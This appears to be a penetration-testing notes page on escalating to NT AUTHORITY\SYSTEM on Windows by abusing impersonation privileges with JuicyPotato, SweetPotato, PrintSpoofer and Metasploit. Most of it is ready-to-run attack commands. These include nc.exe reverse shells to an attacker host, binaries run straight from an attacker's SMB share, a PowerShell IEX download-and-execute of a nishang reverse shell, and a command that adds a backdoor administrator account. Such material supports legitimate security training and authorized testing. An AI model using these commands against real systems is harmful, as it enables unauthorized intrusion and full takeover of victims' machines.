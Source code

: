 # SeImpersonate/SeAssignPrimaryToken

## Theory

This policy setting determines which programs can impersonate a user or other specified account and act on behalf of the user. It is generally assigned to the following groups: **Administrators**, **Local Service**, **Network Service**, **Service**.

{% hint style="success" %}
We will often encounter this privilege after gaining remote code execution through an application running in the context of a service account (e.g., loading a web shell to an [ASP.NET](https://dotnet.microsoft.com/en-us/apps/aspnet) web application, achieving remote code execution through a Jenkins installation, or executing commands through MSSQL queries). Whenever we gain access in this way, we should immediately check this privilege, as its presence often provides a quick and easy route to gain elevated privileges.
{% endhint %}

Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle. You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.

## Practice

{% hint style="warning" %}
**JuicyPotato** does not work on **Windows Server 2019** and **Windows 10 build 1809** onwards. However, **PrintSpoofer** and **RoguePotato** can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) delves into the PrintSpoofer tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.
{% endhint %}

{% tabs %}
{% tab title="JuicyPotato.exe" %}
JuicyPotato can be used to exploit **SeImpersonateToken** or **SeAssignPrimaryToken** privileges through DCOM/NTLM reflection abuse.

{% hint style="danger" %}
Required binaries: **JuicyPotato.exe** and **nc.exe**
{% endhint %}

### Download binary

{% hint style="info" %}
JuicyPotato: [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
{% endhint %}

```bash
# x64 architecture:
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
# x86 architecture:
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
```

### Method #1 - Execution on disk

1. We transfer the `JuicyPotato.exe` and `nc.exe` binaries (with their correct architectures) to the compromised machine, in a directory where we have permissions.
2. Listen on a port: `rlwrap nc -nvlp <LPORT>`.
3. We execute the binaries:

```shell
.\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <LHOST> <LPORT>" -t *
```

Done. If we have problems, we can use a CLSID, which allows us to execute a command at NT AUTHORITY\SYSTEM level. Links to see some depending on the operating system:

* [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
* [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```shell
.\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd <LHOST> <LPORT>" -t * -c "<CLSID>"
```

{% hint style="danger" %}
Remember that it may not work the first time. Try to run it several times.
{% endhint %}

### Method #2 - Off-disk execution (via SMB)

1. We have to have the 2 binaries (nc.exe and JuicyPotato.exe) in the same directory to share a shared resource by SMB:

```bash
smbserver.py smbFolder $(pwd)
```

&#x20; 2\. Listen on a port: `rlwrap nc -nvlp <LPORT>`.

&#x20; 3\. Run the following command on the compromised machine:

```bash
# Without CLSID:
\\<LHOST>\smbFolder\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c \\<LHOST>\smbFolder\nc.exe -e cmd <LHOST> <LPORT>" -t *
# With CLSID:
\\<LHOST>\smbFolder\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c \\<LHOST>\smbFolder\nc.exe -e cmd <LHOST> <LPORT>" -t * -c "<CLSID>"
```

### Method #3 - Execution on disk with PowerShell

1. For this method, we will need the **Invoke-PowerShellTcp.ps1** script from [nishang](https://github.com/samratashok/nishang/tree/master/Shells):

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

&#x20; 2\. Transfer the **JuicyPotato.exe** binary (with its correct architecture) to the compromised machine, in a directory where we have permissions.&#x20;

&#x20; 3\. We create a `rev.bat` file on the compromised machine containing the following:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('http://<IP>:<PORT>/Invoke-PowerShellTcp.ps1')
```

```shell
# Create with "echo":
echo powershell IEX(New-Object Net.WebClient).downloadString("http://<IP>:<PORT>/Invoke-PowerShellTcp.ps1") > rev.bat
```

&#x20; 4\. We listen in on a port: `rlwrap nc -nvlp <PORT>`

&#x20; 5\. We open a server to download our file **Invoke-PowerShellTcp.ps1**: [Web Servers](../../../file-transfer/web-servers.md)

&#x20; 6\. Finally, we run the binary:

```bash
.\JuicyPotato.exe -l 1337 -p C:\Windows\Temp\rev.bat -t * -c "<CLSID>"
```

### Other methods

```shell
# Create and add a user in the Administrators group:
.\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user leviswings leviswings123! /add & net localgroup Administrators leviswings /add" -t *
```
{% endtab %}

{% tab title="SweetPotato.exe" %}
SweetPotato - the successor to RottenPotatto and JuicyPotatto:

```shell
# 1. Download:
wget https://raw.githubusercontent.com/uknowsec/SweetPotato/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe
# 2. Transfer the binary to the compromised machine.
# 3. Execute:
SweetPotato.exe -p <BINARY> -a "<ARGUMENTS>" # General syntax
SweetPotato.exe -p cmd.exe -a "/c whoami"
# With nc.exe binary:
SweetPotato.exe -p nc64.exe -a "-e cmd <LHOST> <LPORT>" # Reverse shell
```

{% embed url="https://github.com/uknowsec/SweetPotato" %}
{% endtab %}

{% tab title="PrintSpoofer.exe" %}
### Download/Compilation

To compile it, we can download the ZIP from its repository:

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

To download it, we can use the repository of the user "dievus", who has the compiled binary:

```bash
git clone https://github.com/dievus/printspoofer
```

### Method

1. Transfer the binary to the compromised machine.
2. Execute:

{% hint style="success" %}
The commands will be executed as **NT AUTHORITY\SYSTEM**
{% endhint %}

```shell
# If we have an RDP session:
PrintSpoofer.exe -i -c cmd.exe
PrintSpoofer.exe -i -c powershell.exe
# If we have a console:
PrintSpoofer.exe -c "<COMMAND>"
PrintSpoofer.exe -c "C:\Windows\Temp\nc.exe -e cmd <LHOST> <LPORT>" # With nc binary
```

### References

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges" %}
{% endtab %}

{% tab title="Metasploit" %}
### Requeriments

* Have a meterpreter session.

### Method

```shell
# We can use any of the following two modules:
use exploit/windows/local/ms16_075_reflection
use exploit/windows/local/ms16_075_reflection_juicy
# We set the SESSION, LHOST, LPORT and the PAYLOAD itself with
# the same machine architecture.
run # If we get the meterpreter shell we can continue with the attack.
load incognito
list_tokens -u
# If we see that "NT AUTHORITY\SYSTEM" or an Administrator user
# is available in the "Impersonation Tokens Available" tab, we are
# one step closer to winning. tab, we are one step away from winning.
impersonate token "<USERNAME>"
```

Done :)
{% endtab %}
{% endtabs %}
